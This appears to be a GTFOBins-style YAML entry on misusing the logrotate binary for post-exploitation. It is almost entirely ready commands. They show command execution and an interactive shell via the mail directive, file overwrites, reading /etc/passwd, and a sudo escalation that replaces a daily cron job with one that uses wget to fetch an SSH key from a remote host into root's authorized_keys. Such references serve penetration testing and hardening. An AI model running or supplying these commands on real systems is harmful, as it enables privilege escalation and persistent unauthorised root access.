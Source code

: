 ```yaml
---
description: Logrotate is used to rotate stale logs and perform various actions like compress the old ones, send mails, and so on. More information about exploiting logrotate may be found [here](https://joshua.hu/gaining-root-with-logrotate-sudo-ubuntu).
functions:
  command:
    - description: Requires a logrotate policy which uses the `mail` directive. A hash should be used as the final character in the command, as it is run with a few arguments.
      code: |
        logrotate -m "/usr/bin/id &> /tmp/output #" -v -f logrotate.policy
  shell:
    - description: Requires a logrotate policy which uses the `mail` directive.
      code: |
        logrotate -m "/usr/bin/bash -i #" -v -f logrotate.policy
  file-write:
    - description: Creates or overwrites the file with the exact text `logrotate state -- version 2`
      code: |
        logrotate -s /tmp/file logrotate.policy
    - description: Creates or overwrites the file with junk data in combination with arbitrary data.
      code: |
        logrotate -l /tmp/file helloworld
  file-read:
    - description: Reads the first 'word'.
      code: |
        logrotate /etc/passwd
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. Note that this will overwrite `/etc/cron.daily/man-db` with a cronjob.
      code: sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget https://example.com/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
---
```

